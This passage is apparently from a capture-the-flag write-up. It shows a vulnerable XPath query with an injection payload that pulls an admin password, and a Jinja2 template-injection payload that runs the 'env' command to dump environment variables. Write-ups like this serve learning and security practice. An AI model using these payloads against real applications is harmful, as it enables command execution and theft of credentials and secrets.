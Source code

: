 
```xml
//user[name/text()="guest" and password/text()="$INPUT"]/name/text()
```

**Payload**: I hate XPATH it gives me headaches, here is the payload from ChatGPT. 

```ps1
"]|//user[name/text()="admin"]/password/text()|//user[name/text()="guest" and password/text()="
```

<center>
  <img src="/images/LeHACK2025/cost-gpt.png" alt="Description" />
  SPOILER ALERT: this shortcut cost me a lot.
</center>


### Jinja SSTI

**Context**: The flag is stored in the environment variable `FLAG`. There is no escaping applied to the user input, so you can inject Jinja2 expressions directly.

```py
from jinja2 import Environment
import os

template = os.environ.get("PAYLOAD", "")
env = Environment()
tmpl = env.from_string(template)
print(tmpl.render())
```

```py
Hello $INPUT
```

**Payload**: The check to validate the flag was a bit off, I discovered you could display every environment variables and it would be considered as a `SUCCESS` since the flag content was inside. The final payload was executing the `env` binary, thanks to Podalirius' research it is a very small payload: [Python vulnerabilities : Code execution in jinja templates - July 27, 2021](https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/).

```ps1
{{ lipsum.__globals__["os"].popen('env').read() }} 
```
